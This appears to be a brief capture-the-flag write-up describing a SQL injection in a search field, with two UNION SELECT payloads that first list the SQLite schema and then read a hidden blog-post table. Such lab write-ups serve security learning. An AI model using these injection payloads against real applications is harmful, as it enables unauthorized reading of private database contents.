 # Challenge `Wow, it can't be more juicy than this!` writeup

- **Vulnerability:** SQL injection
- **Where:** in search query
- **Impact:** Allows query for other values in database.

## Steps to reproduce

1. Firstly check database schema and available tables with: `' UNION Select name, tbl_name, sql from sqlite_master --`
1. After detecting table with secret blog posts, update the query to include results from that table: `' UNION Select id, title, content from secret_blog_post --`
